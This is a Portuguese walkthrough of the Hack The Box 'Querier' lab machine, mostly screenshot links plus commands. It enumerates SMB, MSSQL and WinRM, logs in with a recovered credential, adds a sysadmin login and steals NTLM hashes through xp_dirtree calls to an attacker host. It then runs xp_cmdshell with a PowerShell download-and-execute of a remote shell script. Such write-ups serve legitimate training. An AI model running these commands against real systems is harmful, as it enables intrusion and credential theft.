Querier
========================









Então aqui temos:

RPC



SMB

Com crackmapexec



Até que achamos esse compartilhamento com o seguinte conteúdo:



    sudo apt update
    sudo apt install libreoffice
    open Currency\ Volume\ Report.xlsm
    
  
  
  Visto a credencial, eu já salvei elas em um arquivo:
  
  reporting:PcwTWTHRwryjc$c6
    
MSSQL

Então, tentamos logar no banco, porém com algumas dificuldades:





    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.10.10.125
    
    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=reporting,mssql.password='PcwTWTHRwryjc$c6',mssql.instance-name=QUERIER -sV -p 1433 10.10.10.125
    
    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=reporting,mssql.password='PcwTWTHRwryjc$c6',mssql.instance-name=volume -sV -p 1433 10.10.10.125

```
impacket-mssqlclient -d volume 'QUERIER.HTB.LOCAL/reporting:PcwTWTHRwryjc$c6@10.10.10.125'
impacket-mssqlclient -db volume 'QUERIER.HTB.LOCAL/reporting:PcwTWTHRwryjc$c6@10.10.10.125'
impacket-mssqlclient -db volume 'QUERIER.HTB.LOCAL/reporting:PcwTWTHRwryjc$c6@10.10.10.125' -windows-auth
```
    crackmapexec mssql 10.10.10.125 -u users.txt -p passwords.txt
    crackmapexec mssql 10.10.10.125 -u reporting -p 'PcwTWTHRwryjc$c6'
    
 
 
 Até que o que finalmente funcionou foi:
 
     impacket-mssqlclient -db volume 'QUERIER.HTB.LOCAL/reporting:PcwTWTHRwryjc$c6@10.10.10.125' -windows-auth
 
WINRM

    crackmapexec winrm 10.10.10.125 -u users.txt -p passwords.txt
    evil-winrm -i 10.10.10.125 -u reporting -p 'PcwTWTHRwryjc$c6'

## Exploitation

    impacket-mssqlclient -db volume 'QUERIER.HTB.LOCAL/reporting:PcwTWTHRwryjc$c6@10.10.10.125' -windows-auth

Já com acesso ao banco, agora precisamos enumerar
  
## Enumeration

```
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
USE master

#Get table names
SELECT * FROM volume.INFORMATION_SCHEMA.TABLES;
#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'
```

## Obtain hashes

```
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```






Outra conta, então temos:

reporting:PcwTWTHRwryjc$c6
mssql-svc:corporate568



    evil-winrm -i 10.10.10.125 -u mssql-svc -p corporate568



Após uma nova enumeração, conseguimos logar novamente no banco com as credenciais novas:





Porém, dessa vez conseguimos executar comandos no SO por meio do banco de dados, conforme print acima.

    EXEC xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/shell2.ps1')"

## PrivEsc

Aqui foi basicão:





